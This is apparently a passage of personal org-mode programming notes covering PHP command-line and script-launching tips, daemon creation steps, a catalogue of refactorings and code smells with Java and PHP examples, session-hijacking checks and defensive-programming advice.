~$ cat something.txt > php -R 'include("complicated.php");'

//If you have a nontrivial PHP script, it may be more efficient to package it into functions and include it
//once with -B (-B means it’s executed before the main code) and then execute the function each time with
//-R. The following example loads the content of my_functions.php once at the start, and then the function
//complicated() from that file is called on each line (each $argn) from the data file (data.txt):

~$ php -B 'include("my_functions.php");' -R 'complicated($argn);' -f 'data.txt'
#+end_src

** As a Self-Executing Script
*** unix/linux
#+begin_src php
#!/usr/bin/php
<?php

//~$ chmod a+x myscript.php
// use env
#!/usr/bin/env php
#+end_src

*** windows
To do this, run the following two commands at the Windows command prompt,
which you should run as Administrator. Make sure to change the path/file name in the second command to
match your installation.

assoc .php=phpfile
ftype phpfile="C:\PHP5\php.exe" -f "%1" -- %~2

These changes allow you to run myscript rather than C:\php\php.exe myscript.php.
*** clickable icons linux
On most Linux systems, specifically those that support the freedesktop.org Desktop Entry Specification
standard, you can create a clickable launcher icon by simply creating a text file. Most mainstream Linux
distributions and their window managers follow at least the basics of this standard. To create a launcher for
your app, create a text file in the folder where you want it to appear (for example, in /home/rob/Desktop)
called, for instance, myscript.desktop. It is important that it has the .desktop extension. In the file, add the
#+begin_src 
following lines:
[Desktop Entry]
Type=Application
Name=My Funky App
Terminal=true
Exec=/usr/bin/php /home/rob/scripts/myscript.php
Icon=/usr/share/icons/Humanity/emblems/32/emblem-OK.png
#+end_src
*** Clickable Icons: Ubuntu Unity
you create a .desktop file in a similar manner to the Linux
launcher you created before, but with a few more entries in the file. So let’s create a new myscript.desktop:
#+begin_src 
[Desktop Entry]
Name=My Super Script
Exec=/usr/bin/php /home/rob/scripts/myscript.php
Icon=/usr/share/icons/Humanity/emblems/32/emblem-important.svg
Terminal=true
Type=Application
StartupNotify=true
Actions=Window;
[Desktop Action Window]
Name=Open me a new window please
Exec=/usr/bin/php /home/me/scripts/myscript.php -n
OnlyShowIn=Unity;
#+end_src

** Quitting your script
   
•	 0: Success. You’ve exited normally.
•	 1: General error. This is usually used for application- or language-specific errors and
syntax errors.
•	 2: Incorrect usage.
•	 126: Command is not executable. This is usually permissions related.
•	 127: Command is not found.
•	 128+N (up to 165): Command terminated by POSIX signal number N. For example,
in the case of kill -9 myscript.php, it should return code 137 (which is 128+9).
•	 130: Command terminated by Ctrl+C (Ctrl+C is POSIX code 2, so, using the previous
example, 128 + 2 = 130).
•	 Any other positive integer is generally construed as exiting because of an unspecified
error.
** preload a php file using auto_prepend_file
#+begin_src shell
$ php -d auto_prepend_file=initialize.php -a
Interactive mode enabled
#+end_src

If you regularly use a few different initialization
files like this, you can create shell aliases to commands by using the -d flag. For instance, you could add lines
similar to the following to your ~/.bash_profile:

#+begin_src shell 
alias php-clients="php -d auto_prepend_file=clientSetup.php -a"
alias php-inhouse="php -d auto_prepend_file=ourSiteSetup.php -a"
#+end_src
* Daemons
The outline process for creating a daemon is as follows:
 1 Run a process (PHP script). We call this the parent process.
 2 From the parent, fork (copy) a child process.
 3 The parent process then exits. The child process is now parentless.
 4 init adopts the parentless child process. init is the original process
   started by the kernel when it boots and is the ancestor of all processes.
 5 Dissociate (detach the child) from the terminal you started the parent in. This is so that
  - None of your output appears in the terminal
  - Killing the terminal won’t kill your child process
  - The process is truly running in the background
 6 To dissociate (detach), you need to do the following:
  - Move the child process into its own POSIX process session.
  - Fork it once again (into the grandchild process) and kill the child process.
  - Close any file descriptors such as STDIN that may tie it to the terminal.

* refactoring
** Replace Temp with Query

You are using a temporary variable to hold the result of an expression.

Extract the expression into a method. Replace all references to the temp with
the expression. The new method can then be used in other methods.

** Inline Method
   
A method's body is just as clear as its name.

Put the method's body into the body of its callers and remove the method.

#+begin_src java
int getRating() {
  return (moreThanFiveLateDeliveries()) ? 2 : 1;
}
boolean moreThanFiveLateDeliveries() {
  return _numberOfLateDeliveries > 5;
}

//refactored
int getRating() {
  return (_numberOfLateDeliveries > 5) ? 2 : 1;
}
#+end_src 

inverse of Extract Method

** Inline Temp

You have a temp that is assigned to once with a simple expression, and the temp
is getting in the way of other refactorings.

Replace all references to that temp with the expression.

#+begin_src java
double basePrice = anOrder.basePrice();
return (basePrice > 1000)

//refactored
return (anOrder.basePrice() > 1000)
#+end_src 

** Replace Temp with Query

You are using a temporary variable to hold the result of an expression.

Extract the expression into a method. Replace all references to the temp with
the expression. The new method can then be used in other methods.

#+begin_src java
double basePrice = _quantity * _itemPrice;
if (basePrice > 1000)
  return basePrice * 0.95;
else
  return basePrice * 0.98;

// refactored
if (basePrice() > 1000)
  return basePrice() * 0.95;
else
  return basePrice() * 0.98;
...
double basePrice() {
  return _quantity * _itemPrice;
}
#+end_src 

** Extract Variable
You have a complicated expression.

Put the result of the expression, or parts of the expression, in a temporary
variable with a name that explains the purpose.

#+begin_src java
if ( (platform.toUpperCase().indexOf("MAC") > -1) &&
     (browser.toUpperCase().indexOf("IE") > -1) &&
      wasInitialized() && resize > 0 )
{
  // do something
}

//refactored
final boolean isMacOs     = platform.toUpperCase().indexOf("MAC") > -1;
final boolean isIEBrowser = browser.toUpperCase().indexOf("IE")  > -1;
final boolean wasResized  = resize > 0;

if (isMacOs && isIEBrowser && wasInitialized() && wasResized)
{
  // do something
}
#+end_src 

inverse of Inline Temp

** Split Temporary Variable

You have a temporary variable assigned to more than once, but is not a loop
variable nor a collecting temporary variable.

Make a separate temporary variable for each assignment.

#+begin_src java
  double temp = 2 * (_height + _width);
  System.out.println (temp);
  temp = _height * _width;
  System.out.println (temp);

//refactored
  final double perimeter = 2 * (_height + _width);
  System.out.println (perimeter);
  final double area = _height * _width;
  System.out.println (area);
#+end_src 

** Replace Method with Method Object

You have a long method that uses local variables in such a way that you cannot apply Extract Method

Turn the method into its own object so that all the local variables become
fields on that object. You can then decompose the method into other methods on
the same object.

#+begin_src java
class Order...
double price() {
  double primaryBasePrice;
  double secondaryBasePrice;
  double tertiaryBasePrice;
  // long computation;
  ...
}
#+end_src 

** Substitute Algorithm

You want to replace an algorithm with one that is clearer.

Replace the body of the method with the new algorithm.

#+begin_src java
String foundPerson(String[] people){
  for (int i = 0; i < people.length; i++) {
    if (people[i].equals ("Don")){
      return "Don";
    }
    if (people[i].equals ("John")){
      return "John";
    }
    if (people[i].equals ("Kent")){
      return "Kent";
    }
  }
  return "";
}

//refactored
String foundPerson(String[] people){
  List candidates = Arrays.asList(new String[] {"Don", "John", "Kent"});
  for (int i=0; i<people.length; i++)
    if (candidates.contains(people[i]))
      return people[i];
  return "";
}
#+end_src 

** Move Method

A method is, or will be, using or used by more features of another class than the class on which it is defined.

Create a new method with a similar body in the class it uses most. Either turn
the old method into a simple delegation, or remove it altogether.
Additions

Marian Vittek sent an example for moving a method to a method argument.

#+begin_src  java
class Project {
  Person[] participants;
}

class Person {
  int id;
  boolean participate(Project p) {
    for(int i=0; i<p.participants.length; i++) {
	  if (p.participants[i].id == id) return(true);
    }
    return(false);
  }   
}

... if (x.participate(p)) ...

After applying the move you end up with

class Project {
  Person[] participants;
  boolean participate(Person x) {
    for(int i=0; i<participants.length; i++) {
	  if (participants[i].id == x.id) return(true);
    }
    return(false);
  }   
}

class Person {
  int id;
}

... if (p.participate(x)) ...
#+end_src 

** Move Field

A field is, or will be, used by another class more than the class on which it is defined.

Create a new field in the target class, and change all its users.
** Extract Class

You have one class doing work that should be done by two.

Create a new class and move the relevant fields and methods from the old class into the new class.
** Inline Class

A class isn't doing very much.

Move all its features into another class and delete it.

** Hide Delegate

A client is calling a delegate class of an object.

Create methods on the server to hide the delegate.

** Remove Middle Man

A class is doing too much simple delegation.

Get the client to call the delegate directly.
** Introduce Foreign Method

A server class you are using needs an additional method, but you can't modify the class.

Create a method in the client class with an instance of the server class as its first argument.
#+begin_src java
Date newStart = new Date (previousEnd.getYear(),
previousEnd.getMonth(), previousEnd.getDate() + 1);

Date newStart = nextDay(previousEnd);

private static Date nextDay(Date arg) {
  return new Date (arg.getYear(),arg.getMonth(), arg.getDate() + 1);
}
#+end_src 

** Form Template Method

You have two methods in subclasses that perform similar steps in the same order,
yet the steps are different.

Get the steps into methods with the same signature, so that the original methods
become the same. Then you can pull them up.

** extract class 
You have one class doing work that should be done by two.

Create a new class and move the relevant fields and methods from the old class
into the new class.

** Extract Subclass

A class has features that are used only in some instances.

Create a subclass for that subset of features.

** Extract Superclass

You have two classes with similar features.

Create a superclass and move the common features to the superclass.

inverse of Collapse Hierarchy

** Inline Class

A class isn't doing very much.

Move all its features into another class and delete it.

** Introduce Class Annotation

You have a method whose implementation steps are so common that they can safely
be hidden away.

Declare the behavior by calling a class method from the class definition.

** Replace Record with Data Class

You need to interface with a record structure in a traditional programming
environment.

Make a dumb data object for the record.

** Replace Subclass with Fields

You have subclasses that vary only in methods that return constant data.

Change the methods to superclass fields and eliminate the subclasses.

** Replace Type Code with Class

A class has a numeric type code that does not affect its behavior.

Replace the number with a new class.

** Replace Type Code with Subclasses

You have an immutable type code that affects the behavior of a class.

Replace the type code with subclasses.




** by smell
*** Duplicate code strategies
**** Extract method
**** Pull up field
**** form template method
**** substitude algoirthm
*** Long method
**** intro
The most common strategy to refactor this type of software is the *extract method*. We find pieces of
code that go great together and put them in an external method. One heuristic method that we can use
to correctly separate the code is to follow the comments. Since reading long code is very difficult,
diligent programmers often comment on blocks of code that explain what they do. Here, every time we
encounter a comment, we can

  1. Write a new method in the same class (the name should represent what the
     code does)

  2. Move the block of code under the comment from the routine to the new method

  3. Add a comment that explains not what method does but how it does it.

We can also create new methods that contain only a single line of code, if the
name of the new method explains better what the code does. The key to this
strategy is not so much the length of the method, but the semantic distance
between what the method does and how it does it.

**** extract method
**** move method
*** Large class
**** intro
A class that tries to do too many things can be easily distinguished by the number of attributes it
possesses. When a class has too many attributes, it is very easy to create duplicate code, making it
difficult to maintain and read.
The two best strategies are to combine the attributes that go well together, such as attributes with
the same prefixes or suffixes, e.g., home_address and office_address, or fax_number and
phone_number, and extract new classes that include these similar attributes. If the attributes belong
strongly to class and can’t be merged, but they are used differently in different instances of the same
class, we can extract subclasses and divide these attributes in these subclasses.

**** extract class
**** extract subclass
*** Long parameter list
**** intro
With procedural programming we often use lots of long lists of parameters passed to functions.
Unfortunately, this method used to be mandatory, since the only alternative was to use global variables,
which, we know, are evil. With object-oriented programming, luckily, we no longer need long lists of
parameters, for two main reasons:

 1. There are objects.
 2. A class method knows all private, protected, and public parameters of the
    class where it’s implemented and all protected and public parameters of the
    inherit class.

Moreover, when we have parameters that can be grouped into a single object we can introduce a
parameter object and pass it directly to the method rather than individual parameters. Instead, if we are
passing the individual attributes of the same object, we can preserve the whole object and pass the
object directly. If we invoke a method and then pass the result directly to another method, we can
replace the parameter with the method and call it directly into the later-invoked method.
The only exception for which these strategies can’t be applied is when we don’t want to create
dependency between object and class. In this case we can pass all the attributes separately, but we must
be aware of what this means. Before making this decision we have to review the design of our
application to understand whether we can improve it to avoid a bad smell.

**** Replace parameter with method
**** Preserve whole object
**** introduce parameter object
*** Divergent Change
**** intro
When we change a certain feature in software that is truly moldable, we should be able to make the
change in a single clear point of our system. When this doesn’t happen, and, instead, we must change
multiple methods of the same class to make different changes, then we have done something wrong.

For example, if we have to modify two methods of the same class to change the database
connection, and we have to change four methods to add a new graphical interface to a particular
component in the same class, it is probably better to split this class into two classes, so as to isolate the
change in a single point. The strategy applied is the extract class. We create a new class; we extract the
common methods in the new class and let it communicate in some way.
**** Extract class
*** Shotgun Surgery
**** intro
This bad smell is the perfect opposite of the previous divergent change. In
practice, when we have to modify many classes to make a single change, this
means that we have a design overhead.

When we have to change two different methods of two different classes, we can
move the method in the most representative class. If we instead have to change
attributes of different classes, we can move only attributes in the most
representative class. Sometimes we might remove all classes and move all
attributes within the class that uses it. This strategy takes the name of inline
class.

**** Move method
**** Move field
**** inline class
*** Feature Envy 
**** intro
When we write our software, we must never forget that an object is a set of data and processes that
compute these data. This thought should help us to identify all the methods that do not process the data
in our class, but data of the other classes, invoking only external methods. As you can imagine, these
methods are in the wrong position. To resolve this situation we can simply move the method from one
class to another.
If only a part of the code must be moved, first extract it in a new method and then move it. If our
code actually invokes methods of different classes, it can sometimes be complex to figure out where to
move the method. When we are in trouble, the strategy is always the same—extract more methods and
move everyone in your class.
**** Move method
**** Extract method
*** Primitive Obsession
Many programming languages, including PHP, provide two basic data types—the primitive type and
structured type, which we represent with associative arrays in PHP. The structured data is used when
none of the system primitives provided can properly represent certain data. A very common example is a
record in a database, or a matrix. These data types are often duplicated within our code and, as we have
seen before, are not good, because the duplicated code is the first bad smell. In this case the objects are
the solution to our problem. The object itself is just the right compromise between primitive data and
structured data.

To implement this type of class, the strategy that we can use is to replace data value with an object,
but if we find type code that is an alias for a structured data, we can replace it with a class or subclass it
represents. If we have a condition that depends on the type of a given data, we can replace type code
with a subclass or with a state/strategy pattern.
In the following example we retrieve a record from a database, fetching it with array hydration mode.

#+begin_src php 

$id = 0;
$db = new PDO('mysql:dbname=mytest', 'root');
$stmt = $db->prepare('SELECT * FROM user WHERe id = :id');
$stmt->bindParam(':id', $id, PDO::PARAM_INT);
$stmt->execute();
$user = $stmt->fetch(PDO::FETCH_ASSOC);
echo $user['firstname'], ' ', $user['lastname'], PHP_EOL;
Instead we can define a User class and use it to hydrate query result.
class User
{
  protected $firstname;
    protected $lastname;
  public function __toString()
  {
    return $this->firstname. ' '. $this->lastname;
  }
}
...
$stmt->execute();
$user = $stmt->fetchObject('User');
echo $user, PHP_EOL;
#+end_src 

**** Refactoring Strategies
**** Replace data value with object
**** Replace type code with class
**** Replace type code with subclasses
**** Replace type code with state/strategy
*** Switch statements
**** intro
Another widespread bad smell is the use of repeated and duplicate switches. The switch control
structure usually seeks to change the behavior or the state of an object based on one or more
parameters. Using switches in this way, we forget that in object-oriented programming this type of
behavior has the name “polymorphism” and is a property of objects themselves.

Through the polymorphism property we can remove conditional logic, since the change occurs
according to the type of the object itself, not because someone knows how to choose based on the value
of a given parameter. The strategy that we implement to remove the switches is as follows:

1. Extract the switch in a method.
2. Move the newly extracted method in a class more accountable to the knowledge
   of polymorphism.
3. Decide whether to replace the type code executed by the switch with a
   subclass, or a state/strategy pattern.
4. After setting the structure of inheritance, we can use the replace
   conditional with the polymorphism strategy.

Sometimes the polymorphism may not be the appropriate solution. In this case we can simply
replace the condition code with the methods, and in cases where the condition must return null, we can
think of introducing a NullObject.

#+begin_src php 

class User
{
  ...
  public function initCredentials()
  {
    switch($this->type)
    {
      case 'admin':
      $this->addCredential('admin');
      break;
      case 'premium':
      $this->addCredential('premium');
      break;
      case 'base':
      $this->addCredential('base');
      break;
      default:
      throw new Exception('Error: type is not valid');
      break;
  }
}
...
}
#+end_src 

**** Extract method
**** Move method
**** Replace type code with subclass
**** Replace typecode with state/strategy
**** Replace conditional with polymorphism
**** Introducing NullObject
*** Lazy class
**** intro

All classes or subclasses that we make must have a reason to exist. If you think a class is not doing
enough and is not very useful, it must be removed, because it costs a lot to maintain. If a subclass is not
used in a class, we can collapse the inheritance hierarchy. If an attribute is an instance of a class of
which we use only a single attribute or a single method, let’s make it a class inline into the referred class.

**** Refactoring Strategies
**** Collapse hierarchy
**** Inline class
*** Speculative Generality
**** intro
Developers often commit the sin of pride, thinking that they can predict the future. How many times
have we decided to continue with the amount of code produced because we believed that someday it
would be useful, for example, to have one abstract class, or a certain method, or that particular interface,
only to find that such a day never arrives? Unfortunately, we must accept that we cannot predict the
future. To have a good-smelling code, we must remove all the speculative code, such as code that
nobody uses except for a test case. We must think only about what we need today, not tomorrow.
For this bad smell, the strategies are similar to bad smells we have already discussed. In fact, we can
use the strategy of collapse hierarchy for those subclasses that are not used, or the inline class to remove
delegations from classes that are not really useful. We can also remove parameters from methods that
never use them, and rename all the methods that are not sufficiently expressive.
As previously suggested, a nice way to find this kind of speculation is when we realize that the only
users of these methods are the test cases. So, remove the method and the associated test cases.

**** Collapse hierarchy
**** Inline class
**** Remove parameter
**** Rename method
*** Temporary Field
In object-oriented programming, all the attributes of a certain class should characterize that object in
any context. Often when we implement our code, it happens that some of the attributes are used only in
one context and the others in another context, perhaps chosen by a given parameter. This type of
behavior is wrong because it introduces a lot of unnecessary conditional logic within our code. Instead
we can safely extract a subclass that better characterizes the object in that kind of context.

Therefore, the strategy is to extract a subclass and add the attributes that in a certain context do not
represent the object. If the condition allows no object if the variable is null, we can introduce a
NullObject to handle this case.

#+begin_src php 
class Customer
{
  protected $company_name;
  protected $first_name;
  protected $last_name;
  protected $is_company;
  public function getFullName()
  {
    if ($this->is_company)
    {
      return $this->getCompanyName();
    }
    return $this->getFirstName() . ' ' . $this->getLastName();
  }
}
#+end_src 

In the previous class we have a $first_name and $last_name that are temporary properties of our
class. They are used only when Customer is not a company, so they are context-dependent. We can
remove this double behavior, extracting two subclasses and making Customer an abstract class.

#+begin_src php 
abstract class Customer
{
  abstract public function getFullName();
}
class Person extends Customer
{
  protected $first_name;
  protected $last_name;
  public function getFullName()
  {
    return $this->getFirstName(), ' ', $this->getLastName();
  }
}

class Company extends Customer
{
  protected $company_name;
  public function getFullName()
  {
    return $this->getCompanyName();
  }
}

#+end_src 
**** Extract subclass
**** Introduce NullObject
*** Data class
**** intro
The data classes are all those classes that only have to set and get a set of their attributes, without having
some business logic. They are also called setter/getter classes. Usually these classes, when born, publicly
expose all their attributes, and this behavior may be too brash. When the class is small and we have it
under control, the problem will be minimal, but when these classes grow, if we are not careful, we risk
exposing too much. These classes are like children—while they are growing, they must assume some
responsibility.

The first suggestion is to set all the attributes of those classes to private or protected, and create a
series of getter and setter that may provide public access to these attributes. This strategy is known as
encapsulation field. When an attribute is a collection of objects or structured data, we must do the same
thing because the collection can’t be changed all at once—only one item at a time. This strategy is called
encapsulate the collection. Moreover, if we have attributes that should never be modified outside, we
should not remove setting methods that modify them. If there is an object that uses the setter on the
attributes that should not be changed, extract the external method into our data class and related
external object to it, so that the change is internal.

**** Encapsulate field
**** Encapsulate collection
**** Remove setting method
*** Comments
**** intro
When we say that comments are a source of bad smells, hordes of programmers may become angry. In
our opinion, as that of Martin Fowler, the point is that a comment is not a bad smell, but when the
comment is inline to code and it is used to explain what the code does, this is a bad smell. All method or
class comments are important and should be used to explain how something works, but not what it
does. To remove this bad smell, you can implement the following strategy whenever you want to write a
comment to a block of code:

1. Instead of the comment, write a method where the method name expresses
   exactly the same concept of the comment.
2. Extract the block of code that we wanted to comment in the method.
3. Invoke the method where we wanted to put the comment.

But if we want to write a comment about what a certain call to method does because it isn’t clear,
rename the method with a more expressive name and reduce the list of parameters passed, introducing
a parameter object or preserving the whole object via parameters or creating objects of any object. If
you need to remember some rules required by the system in a certain context, instead of writing the
comment, introduce a method that tests the assertion rule.
**** Extract method
**** Preserve whole object
**** Introduce parameter object

* preventing session hijacking

When SSL is not a possibility, you can further authenticate users by storing
their IP address along with their other details. Do this by adding a line such
as the following when you store a user’s session:

#+begin_src php
$_SESSION['ip'] = $_SERVER['REMOTE_ADDR'];
#+end_src 

Then, as an extra check, whenever any page loads and a session is available,
perform the following check. It calls the function different_user if the stored
IP address doesn’t match the current one:

#+begin_src php
if ($_SESSION['ip'] != $_SERVER['REMOTE_ADDR']) different_user();
#+end_src 

Of course, you need to be aware that users on the same proxy server, or sharing
the same IP address on a home or business network, will have the same IP
address. Again, if this is a problem for you, use SSL. You can also store a copy
of the browser’s user agent string (a string that developers put in their
browsers to identify them by type and version), which, due to the wide variety
of browser types, versions, and computer platforms, might help to distinguish
users. Use the following to store the user agent:

#+begin_src php
$_SESSION['ua'] = $_SERVER['HTTP_USER_AGENT'];
#+end_src 

And use this to compare the current agent string with the saved one:

#+begin_src php
if ($_SESSION['ua'] != $_SERVER['HTTP_USER_AGENT']) different_user();
#+end_src 

Or, better still, combine the two checks like this and save the combination as an md5 hexadecimal string:

#+begin_src php
$_SESSION['check'] = md5($_SERVER['REMOTE_ADDR'] .
    $_SERVER['HTTP_USER_AGENT']);
#+end_src 

* Defensive programming
** premature optimization
*** symptoms
**** Readability
One of the most common indicators of premature optimization is poor code
readability. The majority of optimizations are more complicated solutions and
therefore harder to read and understand than a simpler but less optimal
solution.
**** Dependency
Optimization must sometimes cross encapsulation boundaries, leading to greater
dependency between classes or modules that can reduce the robustness of the
code. These dependencies make changes more difficult by causing each change to
affect more of the code base than would otherwise be necessary.

**** Constraints
Another indicator of premature optimization is overly constrained data input,
leading to an inflexibility that will not allow changes later in development. If
a more general solution is evident, then it is likely that the code was written
to be optimized rather than robust.
*** prevention
**** Do not optimize
Resist the temptations, and wait until the end of development. 

Then, only optimize to achieve your performance goals; otherwise, you will be
wasting time and money when the application could be in use already. This is an
easy goal to say, but much harder to realize. The best tool at your disposal for
achieving this goal is discipline. Think about every algorithm in terms of
flexibility and clarity, and then decide whether you have accidentally
considered performance.
**** K.I.S.S. (Keep It Simple, Stupid)
When it comes to optimization, keeping it simple means waiting until the end of
development to add the complications inherent in most optimizations. Avoiding
complicated code serves two purposes. The obvious effect is improved development
speed and flexibility
**** use High-Level Languages
**** Encapsulation and Abstraction
Surprisingly, one of the most important coding practices for proper optimization
can have a negative impact on application speed. Encapsulation is the collection
of related code into a single unit such as a class or module, which can then use
abstraction to hide the details of the data and implementation behind an
interface that is subjected to fewer changes than the internals.
**** Strategy Pattern
One of the most useful methods of encapsulation and abstraction for optimization
purposes is the Strategy Design Pattern [GoF95]. The basic idea of the Strategy
Pattern is to abstract the interface to an algorithm so that multiple algorithms
for the same functionality can be encapsulated in interchangeable objects.




*** Performance Tradeoffs
At this point you might be thinking, “Well, sure these optimizations lead to
code that is harder to read and modify, but aren’t the performance improvements
worth the tradeoff?” The answer is “not usually.” The fastest way to understand
why is to profile the entire application and find out what percentage of time is
spent in each of the different algorithms and modules.
** CAP epidemic
*** The symptoms of a CAP Epidemic are 
 - Bugs that keep reappearing in different code locations. 
 - The heavy use of search and replace for editing code. 
 - Nonsensical comments and names due to a change in context of the copied code. 
 - Strange bugs caused by forgetting small changes to copied code. 
 - Complex procedures required for updating a single piece of information. 
 - Duplicate occurrences of any human-editable information. 

*** To prevent a CAP Epidemic 

 - Know what project code is available for reuse. 

 - Know what external libraries are available for use in place of implementing the functionality internally. 

 - Use high-level languages and their features such as functions, objects,
   templates, preprocessors, generic programming techniques, and aspect-oriented
   programming techniques.

 - Automate any unavoidable information duplication using scripting and other automation tools. 

 - Code to avoid the need for asset duplication. 

 - Keep up to date on new programming technologies such as Intentional Programming and Generative Programming. 

*** To cure the effects of a CAP Epidemic 

 - Use refactoring to parameterize duplicate code and subsequently move it to a single location. 

 - Take advantage of refactoring tools. 

 - Keep up to date on the advancements in automating refactoring. 

 - Test often to ensure that the refactoring does not change the behavior. 

* useful resources
** php snippets

http://psoug.org/browse.htm?cid=2
** PHP best practices

http://www.phptherightway.com/

** website performance tips
https://gtmetrix.com/
** other

https://github.com/ziadoz/awesome-php

https://stackoverflow.com/documentation/php/topics

https://github.com/Svish/TimerPHP/blob/master/src/Timer.php
http://www.geekality.net/2011/05/01/php-how-to-proportionally-resize-an-uploaded-image/#more-1564
